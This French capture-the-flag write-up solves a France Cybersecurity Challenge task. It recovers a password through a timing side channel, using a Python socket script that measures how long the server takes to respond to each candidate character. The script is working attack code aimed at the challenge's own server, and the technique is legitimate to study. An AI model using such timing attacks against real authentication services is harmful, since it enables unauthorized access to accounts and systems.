 # Algo - Tri sélectif

## Challenge description

![Challenge description](./imgs/desc_lapin_blanc.PNG)

## Résolution

Le principe des challenges types "side channel / fault attacks" est d'utiliser des moyens indirects pour récupérer de l'information. La première étape va donc être de jouer un peu avec le serveur pour voir ce qu'on peut faire. On se connecte donc au serveur avec netcat :

![Connexion](./imgs/connexion_initiale.PNG)

On teste quelques mots de passes, et on cherche ce qui pourrai être exploitable. On remarque que le serveur envoie toujours un chiffre avec un message, un peu comme il enverrai l'heure. On va donc supposer que c'est une sorte de mesure du temps de calcul.

A l'aide d'un script python, on va tester cette possibilité : on suppose que si le serveur compare le mot de passe entré avec le vrai mot de passe lettre par lettre, alors il va mettre plus de temps si la première lettre est bonne. On va tester tout les charactère qui pourraient être dans le mot de passe, et voir si on observe une différence notable de temps. 

Le temps pour une être va donc être `[temps affiché à la réponse]-[temps affiché pour le début de la reflexion]`.

A l'aide de ce script, on teste les lettres de l'alphabet, et la ponctuation :

```python
# nc challenges.france-cybersecurity-challenge.fr 2350

import socket
import time
import string

HOST = 'challenges.france-cybersecurity-challenge.fr'
PORT = 2350

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((HOST, PORT))
print( 'Connexion vers ' + HOST + ':' + str(PORT) + ' reussie.')

def recv_bis(clientt, printout=True, size=4096):
       data = clientt.recv(size)
       datastr =data.decode("utf-8")
       if printout : print(datastr, end="")
       return datastr

def send_check(clientt, msg):
    #print(msg+"\n")
    n = clientt.send((msg+"\n").encode("utf-8"))
    if (n != len((msg+"\n"))):
            print( 'Erreur envoi.')

def test(clienttest, val):
      print(val)
      send_check(clienttest, val)
      time.sleep(0.18)
      doorthink = recv_bis(clienttest)
      time_one = doorthink.split(" ")[0]
      time_one = time_one[1:-1]
      time_end = doorthink.split(" ")[4]
      time_end = (time_end.split("[")[-1])[:-1]
      print(time_end, time_one)
      return int(time_end)-int(time_one)

time.sleep(3)
recv_bis(client)

possible = list(string.ascii_letters + string.punctuation + string.digits + " ")
print(possible)
passphrase = dict()

for let in possible :
    mytest = ""+let
    val = test(client, mytest)
    passphrase[mytest]=val

print(passphrase)
max_time = max(passphrase.values())
print("for the letters : ", [key for key, value in passphrase.items() if value == max_time])

print( 'Deconnexion.')
client.close()
```

![Résultat](./imgs/lapin_blanc_1_lettre.PNG)

On voit que I est la lettre avec le plus haut temps de reflexion. On suppose donc que c'est bien une sorte de calcul du temps, et qu'on peut donc retrouver toutes les lettres suivantes de la même façon. On va tester au fur et à mesure avec une lettre en plus a chaque fois, et on va retrouver la phrase : *"I'm late, I'm late! For a very important date!"*. On obtient alors ~~le flag qu'on submit plus vite que lucky luke parce que le fcsc se termine dans littéralement 30s~~ :

![Flag](./imgs/lapin_blanc_flag.PNG)